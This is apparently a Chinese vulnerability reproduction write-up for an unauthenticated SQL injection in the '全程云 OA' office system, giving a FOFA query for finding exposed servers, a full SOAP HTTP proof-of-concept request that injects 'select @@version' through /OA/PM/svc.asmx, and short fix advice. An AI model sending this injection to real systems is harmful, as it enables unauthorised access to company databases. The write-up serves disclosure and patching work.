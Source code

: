 
# 全程云 OA SQL 注入漏洞复现

### 0x01 产品简介

  全程云 OA 为企业提供日常办公管理、公文管理、工作请示、汇报、档案、知识体系、预算控制等 26 个功能，超过 100 多个子模块。为企业内部提供高效、畅通的信息渠道，同时也能大力推动公司信息系统发展，提高企业的[办公自动化](https://so.csdn.net/so/search?q=%E5%8A%9E%E5%85%AC%E8%87%AA%E5%8A%A8%E5%8C%96&spm=1001.2101.3001.7020)程度和综合管理水平，加快企业信息的流通，提高企业市场竞争能力。

### 0x02 漏洞概述

 由于全程云[oa 办公系统](https://so.csdn.net/so/search?q=oa%E5%8A%9E%E5%85%AC%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020)/OA/PM/svc.asmx页面参数过滤不当，导致存在sql注入漏洞，未授权的攻击者可利用该漏洞获取数据库中的敏感信息。

### 0x03 复现环境

FOFA：body="images/yipeoplehover.png"

![](assets/1701071191-447d654507c9eb2faa2bffb13639721c.png)

### 0x04 漏洞复现 

PoC

```http
POST /OA/PM/svc.asmx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: text/xml
Accept-Encoding: gzip
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetUsersInfo xmlns="http://tempuri.org/">
      <userIdList>select @@version</userIdList>
    </GetUsersInfo>
  </soap:Body>
</soap:Envelope>
```

查询数据库版本

![](assets/1701071191-a4945ecdf05c066fbf10b850e694fe5a.png)

### 0x05 修复建议 

 使用预编译语句。

对进入数据库的特殊字符进行转义处理。
